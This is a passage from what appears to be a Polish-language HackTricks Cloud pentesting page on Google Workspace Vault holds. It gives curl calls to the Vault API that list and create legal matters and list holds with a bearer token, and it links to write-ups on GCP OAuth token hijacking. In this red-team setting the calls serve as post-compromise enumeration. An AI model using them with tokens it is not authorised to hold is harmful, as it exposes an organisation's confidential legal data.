* **Zatrzymanie** w Google Workspace Vault to **działanie ochronne** stosowane do konkretnych użytkowników lub grup w celu **zapobieżenia usunięciu lub zmianie** ich danych w usługach Google Workspace. Zatrzymania zapewniają, że istotne informacje pozostają nienaruszone i niezmienione przez czas trwania sprawy prawnej lub dochodzenia.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
Więcej [punktów końcowych API w dokumentacji](https://developers.google.com/vault/reference/rest).

</details>

## Odniesienia

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
